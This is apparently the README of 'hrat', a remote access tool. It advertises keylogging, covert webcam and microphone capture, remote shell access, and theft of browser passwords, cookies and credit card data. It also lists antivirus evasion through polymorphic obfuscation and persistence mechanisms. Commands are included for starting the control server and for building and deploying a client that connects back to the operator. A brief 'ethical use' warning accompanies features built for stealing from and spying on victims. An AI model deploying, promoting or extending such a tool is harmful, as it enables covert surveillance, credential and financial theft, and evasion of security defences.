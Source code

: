# hrat - Hagz0r's Remote Access Tool

![Project Status: Alpha](https://img.shields.io/badge/status-alpha-red)
![Cross-Platform](https://img.shields.io/badge/platform-Windows%20|%20Linux%20|%20macOS-blue)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

A cross-platform remote access tool with advanced monitoring and control capabilities. Designed for ethical hacking and remote system management.

## Key Features

### Core Capabilities

- **Cross-Platform Operation**: Full support for Windows, Linux, and macOS
- **Secure Communication**: TLS-encrypted WebSocket connections
- **Polymorphic Techniques**: AV evasion through code obfuscation and payload variation

### Remote Monitoring

- **Screen Capture**: Real-time desktop streaming & screenshot capture
- **Webcam Access**: Photo capture and video streaming
- **Process Management**: Live process monitoring and termination
- **Keylogging**: Keystroke capture and analysis
- **Audio Monitoring**: Microphone recording capabilities

### System Interaction

- **Remote Shell**: Full terminal access with PowerShell/Bash support
- **File System Explorer**:
  - File upload/download
  - Directory traversal
  - File execution
- **Registry Editing** (Windows): Remote registry manipulation

### Data Collection

- **Credential Harvesting**:
  - Browser password extraction
  - Cookie database retrieval
  - Credit card data capture
- **System Intelligence**:
  - Hardware inventory
  - Network configuration
  - Geolocation tracking

### Additional Modules

- **Chat System**: Bidirectional communication channel
- **Trolling Toolkit**:
  - Fake error messages
  - Website redirection
  - Clipboard manipulation
- **Persistence Mechanisms**: Startup registration and service installation

## Web Interface

![Web Interface Preview](https://i.ibb.co/gb1BxkyX/image.png)

Showing Super and Client builder pages,

Access through `https://[SERVER_IP]:[SERVER_PORT]` featuring:

- Real-time system dashboards
- Interactive file browser
- Live screen/view control
- Chat interface
- Task management console

## Installation

### Server Setup

```bash
# Clone repository
git clone https://github.com/hagz0r/hrat.git

# Install dependencies
pip install -r requirements.txt

# Start server
uvicorn main:app --host 0.0.0.0 --port 8443 --ssl-keyfile key.pem --ssl-certfile cert.pem
```

### Client Deployment

```bash
# Build optimized binary
cargo build --release

# Run with custom configuration
RAT_HOST_IP=your.server.ip RAT_USE_TLS=true ./target/release/client
```

## Configuration

### Essential Environment Variables

| Variable        | Default   | Description               |
| --------------- | --------- | ------------------------- |
| `RAT_HOST_IP`   | 127.0.0.1 | Control server IP address |
| `RAT_HOST_PORT` | 8443      | Server port number        |
| `RAT_USE_TLS`   | true      | Enable TLS encryption     |

### Advanced Options

```bash
# Debug mode with verbose logging
RAT_DEBUG=1 cargo run --features dev-logs

# Custom TLS certificates
RAT_CA_BUNDLE=/path/to/ca.pem cargo run
```

## Security Considerations

⚠️ **Ethical Use Warning**: This tool should only be used on systems you own or have explicit permission to access.

- All network communication uses TLS 1.3 encryption
- Certificate pinning for server authentication
- Memory encryption for sensitive operations
- Automatic connection obfuscation techniques

## Contributing

We welcome contributions! Please see our [Contribution Guidelines](CONTRIBUTING.md) for details.

## License

MIT License
